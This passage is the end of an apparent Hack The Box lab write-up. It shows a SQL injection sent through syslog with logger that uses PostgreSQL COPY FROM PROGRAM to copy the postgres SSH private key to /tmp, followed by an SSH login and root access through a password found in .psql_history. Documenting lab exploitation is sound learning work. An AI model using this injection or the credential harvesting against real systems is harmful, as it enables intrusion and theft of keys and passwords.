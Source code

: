 ```
$ logger -s -p local7.info "', now()); DROP TABLE IF EXISTS cmd; CREATE TABLE cmd(out TEXT); COPY cmd FROM PROGRAM \$cmd\$cp /var/lib/postgresql/.ssh/id_rsa /tmp/sshh; chmod 666 /tmp/sshh\$cmd\$; --"
```


{% include image.html image_alt="7c864680.png" image_src="/a2612680-aa5d-4086-b8ce-a46808e10511/7c864680.png" %}


## Final Privilege Escalation

Armed with the SSH private key of `postgres`, I can simply log in to the account through SSH.


{% include image.html image_alt="227bc178.png" image_src="/a2612680-aa5d-4086-b8ce-a46808e10511/227bc178.png" %}


During enumeration of the postgres account, I notice its password lying around in the `.psql_history`.

```
$ cat .psql_history
CREATE DATABASE syslog;
\c syslog
CREATE TABLE syslog_lines ( ID serial not null primary key, CustomerID bigint, ReceivedAt timestamp without time zone NULL, DeviceReportedTime timestamp without time zone NULL, Facility smallint NULL, Priority smallint NULL, FromHost varchar(60) NULL, Message text, NTSeverity int NULL, Importance int NULL, EventSource varchar(60), EventUser varchar(60) NULL, EventCategory int NULL, EventID int NULL, EventBinaryData text NULL, MaxAvailable int NULL, CurrUsage int NULL, MinUsage int NULL, MaxUsage int NULL, InfoUnitID int NULL , SysLogTag varchar(60), EventLogType varchar(60), GenericFileName VarChar(60), SystemID int NULL);
\d syslog_lines
ALTER USER postgres WITH PASSWORD 'sup3rs3cur3p4ass@postgres';
```

Recall the `TuDu` entry about the password scheme? Could this be `root`'s password as well?


{% include image.html image_alt="d133640c.png" image_src="/a2612680-aa5d-4086-b8ce-a46808e10511/d133640c.png" %}


Indeed. The password is `sup3rs3cur3p4ass@root`! Well, with that, getting `root.txt` is easy.


{% include image.html image_alt="1538975e.png" image_src="/a2612680-aa5d-4086-b8ce-a46808e10511/1538975e.png" %}


:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/204
[2]: https://www.hackthebox.eu/home/users/profile/77141
[3]: https://www.hackthebox.eu/
